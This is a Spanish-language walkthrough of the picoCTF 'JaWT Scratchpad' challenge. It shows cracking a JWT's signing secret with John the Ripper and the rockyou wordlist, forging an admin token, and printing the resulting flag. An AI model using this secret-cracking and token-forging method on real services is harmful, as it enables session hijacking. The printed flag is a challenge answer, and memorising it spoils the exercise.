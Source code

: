 # JaWT Scratchpad
## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solución 
Se visita pagina con la direccion adjunta, se observa una pagina en la que si nos registramos se observa:

![img-login_jawt](img-login_jawt.png)

Se inspeccionan las cockies con la extencion del navegador *Cockie Editor*, y se obtiene:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```

Se guarda en un archivo
```bash
hone@Unidad03:/tmp$ echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww > token
```

Es necesario modificar la cockie con la ayuda de un desincriptador, pero es necesario obtener la *VERIFY SIGNATURE*, para eso es necesario hacerlo de la siguiente manera:

```bash
hone@Unidad03:/tmp$ john token -w ~/usr/share/wordlists/rockyou.txt
ilovepico
```

Despues cambiamos el usuario y el *VERIFY SIGNATURE* de la siguiente manera:

![img-arreglado](img-arreglado.png)

En seguida se copia, pega y guarda el tocken generado con la ayuda de *Cockie Editor*

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

Al recargar se obtiene la bandera

![img-bandera_jawt](img-bandera_jawt.png)

Bandera: *picoCTF{jawt_was_just_what_you_thought_1ca14548}
## Referencias
https://es.wikipedia.org/wiki/JSON_Web_Token

https://jwt.io/